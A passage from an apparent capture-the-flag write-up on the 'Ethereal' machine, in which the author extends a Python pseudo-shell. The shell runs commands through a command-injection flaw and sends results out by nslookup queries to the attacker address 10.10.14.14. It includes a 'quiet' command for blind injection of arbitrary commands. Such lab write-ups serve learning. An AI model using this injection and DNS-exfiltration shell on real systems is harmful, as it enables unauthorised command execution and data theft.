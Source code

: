 Then I’ll add a `do_exit` function that gets Ethereal to send a query for that domain, and then exits:

```

 79     def do_exit(self, args):
 80         self.send_post(f'& nslookup {kill_domain} 10.10.14.14')
 81         sys.exit()

```

I’ll add a check in `parse_packet`, as the `prn` gets called first, to not print this domain:

```

 31             domain = p.getlayer(DNS).qd.qname.decode('utf-8')
 32             if domain == kill_domain: return

```

It works:

```

root@kali# ./ethereal_shell.py
ethereal> whoami
etherealalan
ethereal> exit
root@kali#

```

I can also add a wrapper around my `cmdloop` to catch ctrl-c:

```

 94 try:
 95     term.cmdloop()
 96 except KeyboardInterrupt:
 97     term.do_exit('')

```

### quiet Command

There are a bunch of cases where I need to send a command that I don’t need output for. And there are cases where the for loop into `nslookup` is causing issues. For this reason, I’ll create a `quiet` command. This will take a command and just run it via the injection without the exfil of the response. To add a command in a Cmd terminal, I just create a function `do_[cmd_name]`:

```

    def do_quiet(self, args):
        command = f'& ( {args} )'
        self.send_post(command)

```
